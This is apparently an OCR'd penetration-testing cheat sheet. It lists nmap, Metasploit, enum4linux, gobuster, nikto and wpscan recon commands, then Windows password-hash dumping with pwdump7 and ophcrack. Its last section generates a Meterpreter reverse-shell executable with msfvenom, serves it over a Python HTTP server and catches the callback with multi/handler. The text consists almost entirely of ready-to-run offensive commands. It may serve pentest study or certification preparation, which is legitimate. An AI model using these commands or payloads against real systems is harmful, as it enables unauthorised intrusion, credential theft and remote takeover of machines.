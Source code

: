 # msfconsole + db
service postgresql start
msfdb init
msfconsole
db_status

# msfconsole + nmap
nmap -T4 -sS -sV -A -oX Recon ip/24
db_import Recon
hosts
services
db_nmap -sS -A ip

# msfconsole context
use scanner/smb/smb_version
snmp_login
snmp_enum

# enum4linux
enum4linux -u username -p password -U/o/P/G/S ip

# gobuster/dirb/uniscan
gobuster -e -u http://10.10.10.10 -w wordlsit.txt
gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-*.txt -x jpg,png,php,aspx,css,html
dirb http://10.10.10.10 wordlist.txt

# nikto
nikto -h http://www.target.com (optional: -Tuning 1)

# wpscan
wpscan --url http://target/ --enumerate u/vp
msf > search wordpress_login_enum



Gaining Access & System Hacking


# Win password dump + ophcrack
pwdump7.exe > c:\hashes.txt
ophcrack.exe install tables (vista free) | crack

# vuln VNC session
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=your_ip LPORT=4444 -o Rev_shell.exe
python3 -m http.server 8888
msf > use multi/handler
msf > set payload windows/meterpreter/reverse_tcp
meterpreter > sysinfo && run vnc
